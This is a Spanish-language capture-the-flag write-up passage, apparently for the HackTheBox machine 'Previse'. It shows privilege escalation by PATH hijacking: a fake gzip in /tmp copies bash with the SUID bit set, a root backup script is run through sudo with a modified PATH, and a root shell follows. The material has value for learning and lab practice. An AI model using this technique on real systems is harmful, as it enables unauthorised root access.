Este script tiene como objetivo comprimir archivos de registro de acceso de Apache y otros registros de acceso a archivos y almacenarlos como copias de seguridad en un directorio específico (`/var/backups/`). Utiliza `gzip` para comprimir los archivos de log y les da un nombre basado en la fecha de ayer. El script también está configurado para ejecutarse con cron y tiene permisos de `sudo`, lo que le permite ser ejecutado como root para realizar las tareas programadas.

#### Explicación del script:

1. `gzip -c /var/log/apache2/access.log > /var/backups/$(date --date="yesterday" +%Y%b%d)_access.gz`:
   * Comprime el archivo de log de Apache (`access.log`) en un archivo con fecha de ayer en el directorio de copias de seguridad.
2. `gzip -c /var/www/file_access.log > /var/backups/$(date --date="yesterday" +%Y%b%d)_file_access.gz`:
   * Comprime otro archivo de log (`file_access.log`) de acceso a archivos y lo guarda en el mismo directorio con un nombre similar.

#### Posible Vulnerabilidad de **Path Hijacking** en **gzip**:

La vulnerabilidad de `Path Hijacking` ocurre cuando un atacante manipula el entorno del sistema para hacer que un programa como `gzip` use rutas maliciosas o archivos falsificados, en lugar de los archivos legítimos que el sistema debería utilizar. En el contexto de este script, un atacante podría aprovechar esta vulnerabilidad de la siguiente manera:

1. **Manipulación del `$PATH`**: Si un atacante logra modificar la variable de entorno `$PATH` antes de que se ejecute el script, podría colocar una versión maliciosa de `gzip` en un directorio que esté antes del directorio legítimo en el `$PATH` (por ejemplo, en `/tmp` o en un directorio controlado por el atacante). Esto haría que el script ejecute esa versión maliciosa de `gzip` en lugar de la versión legítima.
2. **Ejecución de código malicioso**: La versión maliciosa de `gzip` podría ejecutar comandos no deseados, robar información o incluso sobrescribir archivos críticos en el sistema.

```bash
#!/bin/bash

# We always make sure to store logs, we take security SERIOUSLY here

# I know I shouldnt run this as root but I cant figure it out programmatically on my account
# This is configured to run with cron, added to sudo so I can run as needed - we'll fix it later when there's time

gzip -c /var/log/apache2/access.log > /var/backups/$(date --date="yesterday" +%Y%b%d)_access.gz
gzip -c /var/www/file_access.log > /var/backups/$(date --date="yesterday" +%Y%b%d)_file_access.gz
```

Antes de analizar cualquier posible vulnerabilidad, verificamos el entorno de ejecución para entender cómo están configurados los directorios en los que el sistema busca los comandos ejecutables. El resultado muestra que `gzip` se encuentra en la ubicación `/bin/gzip`, lo cual es una ruta estándar y segura en sistemas Unix.

A continuación, verificamos la variable de entorno `$PATH` que define los directorios donde el sistema busca los comandos ejecutables. En este caso, podemos observar que los directorios están bien definidos y no hay rutas sospechosas ni directorios controlados por el atacante antes de las ubicaciones críticas como `/bin` o `/usr/bin`.

```bash
m4lwhere@previse:/tmp$ which gzip
/bin/gzip

m4lwhere@previse:/tmp$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
```

Durante el análisis de la vulnerabilidad **`Path Hijacking`**, hemos creado un script malicioso llamado `gzip` en un directorio controlado por el atacante (`/tmp`). Este script reemplaza la ejecución legítima de `gzip` con un comportamiento malicioso, ejecutando el siguiente código.

* **Copia de bash**: Copia el binario legítimo de `bash` desde `/bin/bash` a un archivo llamado `/tmp/gzzcoo`.
* **SUID (Set User ID)**: Establece el bit **`SUID`** en el archivo `/tmp/gzzcoo`, lo que le da privilegios de superusuario a cualquier persona que ejecute ese archivo. Esto permite al atacante ejecutar el comando `bash` con privilegios de root, lo que comprometería completamente el sistema.

Si la variable `$PATH` de la víctima se ve comprometida y `/tmp` aparece antes de `/bin` en la secuencia de búsqueda de comandos, cualquier intento de ejecutar `gzip` podría invocar el script malicioso en lugar del binario legítimo. Esto permitiría al atacante ejecutar comandos arbitrarios con privilegios de superusuario, como en el caso de la ejecución de `/tmp/gzzcoo` con permisos de root.

```bash
m4lwhere@previse:/tmp$ cat gzip 
#!/bin/bash

cp /bin/bash /tmp/gzzcoo && chmod u+s /tmp/gzzcoo
m4lwhere@previse:/tmp$ chmod 777 gzip 
```

Para explotar la vulnerabilidad de **`Path Hijacking`**, manipulamos temporalmente la variable de entorno `$PATH` para anteponer el directorio `/tmp`, donde se encuentra nuestro script malicioso `gzip`.

Al ejecutar este comando, logramos que el sistema buscara primero el script malicioso ubicado en `/tmp` en lugar del binario legítimo de `gzip` que reside en `/bin/gzip`. Como resultado, el script malicioso fue ejecutado, lo que provocó la creación del archivo `/tmp/gzzcoo` con privilegios de `root` debido al bit `SUID` configurado.

Finalmente a través de `/tmp/gzzcoo -p` logramos obtener acceso como el propietario del binario (`root`) debido que esta copia dispone de permisos de `SUID`. Logramos obtener acceso a la flag **root.xt**.

Este comportamiento demuestra cómo una configuración incorrecta del `$PATH`, donde directorios no confiables como `/tmp` tienen prioridad, puede permitir la ejecución de scripts maliciosos que otorguen acceso con privilegios elevados.

```bash
m4lwhere@previse:/tmp$ sudo PATH=/tmp:$PATH /opt/scripts/access_backup.sh
m4lwhere@previse:/tmp$ ls -l 
total 1108
-rwxrwxrwx 1 m4lwhere m4lwhere      63 Mar  3 03:03 gzip
-rwsr-xr-x 1 root     root     1113504 Mar  3 03:04 gzzcoo
drwx------ 3 root     root        4096 Mar  3 01:55 systemd-private-291eb14f1df84d53886e71baa3ee24a8-apache2.service-HTUQ4f
drwx------ 3 root     root        4096 Mar  3 01:55 systemd-private-291eb14f1df84d53886e71baa3ee24a8-systemd-resolved.service-hFyPyE
drwx------ 3 root     root        4096 Mar  3 01:55 systemd-private-291eb14f1df84d53886e71baa3ee24a8-systemd-timesyncd.service-hi0tJv
drwx------ 2 root     root        4096 Mar  3 01:56 vmware-root_879-4013723248
m4lwhere@previse:/tmp$ /tmp/gzzcoo -p
gzzcoo-4.4# whoami
root
gzzcoo-4.4# cat /root/root.txt 
745b****************************
```
